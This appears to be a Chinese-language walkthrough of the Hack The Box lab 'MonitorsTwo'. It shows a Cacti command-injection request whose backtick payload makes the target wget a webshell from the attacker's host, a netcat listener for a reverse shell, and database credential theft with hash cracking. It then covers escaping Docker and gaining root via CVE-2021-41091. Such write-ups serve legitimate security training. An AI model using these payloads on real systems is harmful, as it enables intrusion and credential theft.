

MonitorsTwo
10.10.11.211
信息搜集
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
| PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_ 256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https:
Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
Starting Nmap 7.93 ( https:
Nmap scan report for 10.10.11.211
Host is up (0.27s latency).
|
rce getshell

| GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`wget+http%3a//10.10.14.6/p.php` HTTP/1.1
Host: 10.10.11.211
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1
Cookie: CactiDateTime=Thu Jun 08 2023 18:20:44 GMT+0800 (China Standard Time); CactiTimeZone=480; Cacti=44a4afffd4efec547b1e64934bcd252c
Upgrade-Insecure-Requests: 1
|
wget+http%3a//10.10.14.6/p.php
下载本地webshell并访问webshell：http://10.10.11.211/p.php
本地开启监听：nc -lnvp 9001
即可获得一个www-data权限的shell
二次信息搜集


上传linpeas.sh并运行，发现是docker环境，需要逃逸

cat entrypoint.sh里面包含mysql的用户名密码和连接方式
show databases;
use cacti;
show tables;
select * from user_auth;
mysql –host=db –user=root –password=root
john hash.txt –wordlist=/usr/share/wordlists/rockyou.txt

ssh marcus@10.10.11.211
获得ssh用户的密码，连入后获得普通用户权限
提权
wget http://10.10.14.6/linpeas.sh
chmod +x *.sh;./linpeas.sh > out.txt
docker容器先提权到root权限

使用CVE-2021-41091 docker版本太低提权漏洞，运行exp.sh以后
运行生成的路径下的/bin/bash，即可获得root权限

参考资料